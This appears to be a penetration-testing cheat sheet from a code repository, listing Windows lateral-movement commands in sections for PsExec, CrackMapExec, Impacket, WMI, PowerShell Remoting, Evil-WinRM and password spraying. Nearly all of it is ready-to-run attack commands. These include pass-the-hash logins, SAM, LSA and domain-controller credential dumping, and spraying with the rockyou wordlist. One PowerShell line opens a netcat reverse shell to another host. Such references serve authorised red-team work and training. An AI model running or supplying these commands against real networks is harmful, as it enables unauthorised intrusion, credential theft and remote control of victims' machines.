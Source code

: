 ### lateral movement
```
PsExec64.exe \\192.168.1.104 -u administrator -p forever cmd 
psexec \\192.168.122.66 -u Administrator -p 123456Ww ipconfig
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t ipconfig 
PsExec64.exe \\ninja.corp cmd 
crackmapexec 192.168.100.1/24 
crackmapexec cme-hosts.txt --shares 
cme-hosts.txt -u username.txt -p password.txt --shares 
crackmapexec 192.168.100.10 -u Administrator -p 'Passw0rd!' -x "net users" 
crackmapexec smb 192.168.100.1/24 -u Administrator -p 'Passw0rd!' -x "net users" 
crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee  -x "hostname" 
crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee  -x "hostname" 
crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee --sam            
crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee --lsa            
pth-rpcclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee //192.168.1.25 


```
### Impacket
```
psexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig 
wmiexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig 
python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee Administrator@192.168.100.10 #with hash 
python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee -just-dc acmebank.loca/Administrator@192.168.100.10 

```

### Windows Management Instrumentation

```
wmic /node:"wkstn-4945" /user:"cyberbotic.io\n.lamb" /password:"F3rrari" process call create "powershell -enc [...snip...]"
WMIGrunt wkstn-4945 PowerShell cyberbotic.io\n.lamb F3rrari
WMIGrunt wkstn-4945 PowerShell

```
  ### PowerShell Remoting
 ```
ImpersonateUser CYBER\n.lamb
MakeToken n.lamb cyberbotic.io F3rrari
PowerShell Invoke-Command -ComputerName wkstn-4945 -ScriptBlock { hostname; whoami }
PowerShell $pass=ConvertTo-SecureString "F3rrari" -AsPlainText -Force; $cred=New-Object System.Management.Automation.PSCredential("cyberbotic.io\n.lamb", $pass); Invoke-Command -ComputerName wkstn-4945 -ScriptBlock { hostname; whoami } -Credential $cred
```




| PowerShell Remoting |
| ------------------- |
|$Username = 'ninja.corp\MeMe' #powershell variable |
|$Password = '123456789aA'|
|$pass= ConvertTo-SecureString -AsPlainText $Password -Force #powershell variable |
|$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass #powershell variable |
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {hostname}|
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {cmd.exe /c nc.exe -v 192.168.1.100 7777 -e cmd.exe}|





### Evil-WinRM
 
```
proxychains evil-winrm -u n.glover -H REDACTED -i 10.10.120.1
```

 ### Password Spraying Attack 
```

| crackmapexec smb 192.168.1.1  -d ninja.corp -u MeME -P /usr/share/wordlists/rockyou.txt|
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| crackmapexec smb 192.168.1.1 -u MeMe -H NTHASH |
|crackmapexec smb 192.168.1.1 -u '' -p '' #NULL Sessions|
|spray.sh -smb 192.168.1.1 users.txt /usr/share/wordlists/rockyou.txt  1 35 ninja.corp|
|spray.sh -owa 192.168.1.1 users.txt  /usr/share/wordlists/rockyou.txt   1 35 Request.body #OWA|
|spray.sh -ciso 192.168.1.1 usernames.txt /usr/share/wordlists/rockyou.txt 1 35 #CISCO Web VPN|
|./atomizer.py owa contoso.com 'Fall2018' emails.txt|
```


